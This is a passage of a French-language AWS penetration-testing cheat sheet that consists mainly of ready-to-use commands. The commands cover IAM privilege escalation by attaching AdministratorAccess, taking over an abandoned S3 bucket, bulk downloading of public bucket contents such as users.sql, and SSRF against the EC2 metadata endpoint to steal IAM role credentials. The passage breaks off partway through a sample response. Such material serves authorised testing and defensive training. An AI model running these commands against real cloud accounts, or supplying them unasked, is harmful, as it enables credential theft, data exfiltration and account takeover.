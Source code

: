 #### **Actions privilégiées exploitables**
```json
// Si vous avez iam:AttachUserPolicy
{
  "AttachUserPolicy": {
    "UserName": "alice",
    "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
  }
}

// Si vous avez iam:CreateRole + iam:AttachRolePolicy
{
  "CreateRole": {
    "RoleName": "PrivEscRole",
    "AssumeRolePolicyDocument": "..."
  }
}
```

### **Exploitation S3**

#### **Bucket takeover**
```bash
# Découvrir buckets avec erreur "NoSuchBucket"
curl -s https://company-old-app.s3.amazonaws.com/
# Erreur : NoSuchBucket

# Créer le bucket manquant
aws s3 mb s3://company-old-app --region us-east-1
echo "Bucket compromis !" > index.html
aws s3 cp index.html s3://company-old-app/
```

#### **Exfiltration de données S3**
```bash
# Lister le contenu
aws s3 ls s3://bucket-public-exemple/ --recursive --no-sign-request

# Télécharger des fichiers sensibles
aws s3 cp s3://bucket-public-exemple/users.sql . --no-sign-request
aws s3 cp s3://bucket-public-exemple/backup/ . --recursive --no-sign-request

# Synchronisation complète
aws s3 sync s3://bucket-public-exemple/ ./local-copy/ --no-sign-request
```

### **Exploitation EC2 et IMDS**

#### **SSRF vers IMDS**
```bash
# Via une application web vulnérable
curl "http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/"

# Récupération des credentials temporaires
curl "http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
curl "http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-S3-Role"

# Réponse type :
{
  "Code" : "Success",
  "LastUpdated" : "2024-01-20T14:22:33Z",
  "Type" : "AWS-HMAC",
```